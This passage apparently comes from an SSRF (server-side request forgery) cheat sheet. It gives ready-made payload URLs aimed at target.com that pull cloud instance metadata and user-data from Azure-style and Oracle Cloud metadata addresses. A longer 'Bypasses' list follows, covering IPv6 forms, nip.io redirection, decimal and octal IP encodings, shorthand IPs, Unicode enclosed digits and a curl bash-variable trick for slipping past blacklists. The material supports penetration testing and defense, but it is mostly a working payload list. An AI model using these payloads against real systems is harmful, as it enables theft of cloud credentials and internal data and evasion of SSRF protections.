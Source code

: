 `https://target.com/page?url=http://169.254.169.254/metadata/maintenance  
https://target.com/page?url=http://169.254.169.254/metadata/instance?api-version=2019-10-01  
https://target.com/page?url=http://169.254.169.254/metadata/instance/network/interface/0/ipv4/ipAddress/0/publicIpAddress?api-version=2019-10-01&format=text`

#### **Oracle Cloud**

Oracle cloud uses the `192.0.0.192` address.  
  
`https://target.com/page?url=http://192.0.0.192/latest/  
https://target.com/page?url=http://192.0.0.192/latest/meta-data/  
https://target.com/page?url=http://192.0.0.192/latest/user-data/  
https://target.com/page?url=http://192.0.0.192/latest/attributes/`

### **Bypasses**

One way to protect against SSRF is to blacklist certain domains and IP addresses. Yet, blacklisting isn’t really a good defense technique as hackers can use bypasses to avoid your security measures.

#### **Bypass using HTTPS**

Common blacklists blocking everything on port `80` or the `http` scheme. but the server will handle requests to `443` or `https` just fine.  
  
Instead of using `http://127.0.0.1/` use: `https://127.0.0.1/ https://localhost/`

#### **Bypass localhost**

The most common blacklist is blacklisting IP addresses like `127.0.0.1` or localhost. To bypass these blacklists you can use:

-   With `[::]`, abuses IPv6 to exploit
    -   `**http://[::]/**`
    -   `**http://[::]:80/**`
    -   `**http://0000::1/**`
    -   `**http://0000::1:80/**`
-   With domain redirection, useful when all IP addresses are blacklisted
    -   `**http://localtest.me**`
    -   `**http://test.app.127.0.0.1.nip.io**`
    -   `**http://test-app-127-0-0-1.nip.io**`
    -   `**httP://test.app.127.0.0.1.xip.io**`
-   With CIDR, useful when just `127.0.0.1` is whitelisted
    -   `**http://127.127.127.127/**`
    -   `**http://127.0.1.3/**`
    -   `**https:/127.0.0.0/**`
-   With IPv6/IPv4 address embedding, useful when both IPv4 and IPv6 are blacklisted (but blacklisted badly)
    -   `**http://[0:0:0:0:0:ffff:127.0.0.1]/**`
-   With decimal IP location, really useful if dots are blacklisted
    -   `**http://0177.0.0.1/ --> (127.0.0.1)**`
    -   `**http://2130706433/ --> (127.0.0.1)**`
    -   `**http://3232235521/ --> (192.168.0.1)**`
    -   `**http://3232235777/ --> (192.168.1.1)**`
-   With malformed URLs, useful when port is blacklisted
    -   `**localhost:+11211aaa**`
    -   `**localhost:00011211aaaa**`
    -   `**localhost:11211**`
-   With shorthanding IP addresses by dropping zeros, useful when full IP address is whitelisted
    -   `**http://0/**`
    -   `**http://127.1/**`
    -   `**http://127.0.1/**`
-   With enclosed alphanumerics, useful when just plain ASCII characters are blacklisted but servers interpret enclosed alphanumerics as normal.
    -   `**http://①②⑦.⓪.⓪.①/**`
    -   `**http://⓵⓶⓻.⓪.⓪.⓵/**`
-   With bash variables (cURL only)
    -   `**curl -v "http://attacker$google.com"; $google = ""**`